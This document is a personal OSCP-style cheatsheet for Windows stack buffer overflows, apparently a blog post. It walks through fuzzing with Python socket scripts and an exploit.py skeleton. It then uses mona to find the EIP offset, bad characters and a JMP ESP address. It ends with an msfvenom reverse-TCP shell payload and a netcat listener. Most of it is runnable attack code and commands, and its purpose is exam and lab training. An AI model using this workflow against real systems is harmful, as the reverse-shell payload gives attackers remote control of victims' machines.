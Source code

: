 ```yaml
---
layout: post
title: Buffer Overflow personnal cheatsheet
tags: [OSCP, Buffer Overflow, cheatsheet]
description: "Buffer Overflow personnal cheatsheet"

---
```


### Check for windows protections :

- C:\Users\thiba\Desktop\build\Release\winchecksec.exe PATH.exe

# Buffer Overflow "Normal" :

### Mona Configuration :

- mona config -set workingfolder c:\mona\%p

### Fuzzing :

- fuzzer.py / fuzzer2.py -> until app crash

```
#fuzzer.py

import socket, time, sys

ip = "IP"
port = PORT
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

```
#fuzzer2.py

import socket

target_ip = "IP"
target_port = PORT

payload = 1000 * "A"

try: 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip,target_port))
    s.send(payload)
    print "[+] " + str(len(payload)) + " Bytes Sent"
except:
    print "[-] Crashed"
```

- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l SIZE -> SIZE higher than crash offset

### Crash Replication & Controlling EIP :

- modify payload variable by pattern (exploit.py) 

  ```
  #exploit.py
  
  import socket
  
  ip = "IP"
  port = PORT
  
  prefix = ""
  offset = 0
  overflow = "A" * offset
  retn = ""
  padding = ""
  payload = ""
  postfix = ""
  
  buffer = prefix + overflow + retn + padding + payload + postfix
  
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  
  try:
      s.connect((ip, port))
      print("Sending evil buffer...")
      s.send(buffer + "\r\n")
      print("Done!")
  except:
      print("Could not connect.")
  ```

  

- !mona findmsp -distance SIZE -> SIZE same as pattern

- EIP contains normal pattern : ... (offset XXXX) -> get the offset, modify offset variable (exploit.py)

- modify retn variable by "BBBB", remove payload

- Re-run exploit.py -> EIP should be "BBBB"

### Finding Bad Characters :

- !mona bytearray -b "\x00" -> copy results to payload variable
- Re-run exploit.py
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> copy bad chars
- !mona bytearray -b "\x00 + BAD_CHARS" -> copy results to payload variable
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> Repeat the badchar comparison until the results status returns
- "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point :

- !mona jmp -r esp -cpb "BAD_CHARS" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards

### Generate Payload :

- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable

### Prepend NOPs :

- padding = "\x90" * 16

### Start nc listerner :

- nc -lvp 1234


